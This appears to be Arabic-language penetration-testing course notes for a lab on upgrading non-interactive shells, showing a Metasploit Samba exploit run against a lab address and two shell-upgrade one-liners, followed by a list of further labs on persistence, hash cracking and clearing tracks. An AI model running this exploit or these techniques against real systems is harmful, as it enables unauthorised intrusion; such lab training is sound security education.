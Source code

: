 اللاب التاسع الي معنا اليوم هو  

Upgrading Non-Interactive Shells     
---------------------------------|  

طبعا فكرة هذا اللاب يشرح لنا طريقة ترقية الـ non-interactive Shells  

طبعا نطلع ايبي التارقت ونستغل فورا  

الاستغلال  
```bash
msfconsole  
use exploit/linux/samba/is_known_pipename  
set RHOSTS 192.185.44.3  
exploit  
```  

هنا نشوف انه عطانا non-interactive shell  
طبعا نقدر نخليه interactive باكثر من طريقة وراح نشوف بعض الطرق  

الطريقة الاولى  
```bash
/bin/bash -i  
```  

ونشوف انه عطانا interactive shell  

الطريقة الثانيه  
```bash
python -c 'import pty; pty.spawn("/bin/bash")'  
```  

ونشوف انه عطانا interactive shell  

الى هنا انتهى اللاب نشوف الي بعده  

---

هذي اللابات فقط للقرائة بنقراها ف ماراح يكون فيه شرح

This labs only read because we don't have time     
-----------------------------------------------|  

1. Windows: PrivescCheck  
2. Permissions Matter!  
3. Editing Gone Wrong  
4. Maintaining Access: Persistence Service  
5. Maintaining Access: RDP   
6. Maintaining Access I   
7. T1168: Local Job Scheduling  
8. Windows: NTLM Hash Cracking   
9. Password Cracker: Linux  
10. Clearing Your Tracks On Windows   
11. Clearing Your Tracks On Linux  
12. All labs on Section web  

الى هنا ختمنا كورس PTS الحمدالله  

باذن الله يوم الاحد راح نبدا بكورس PTP  
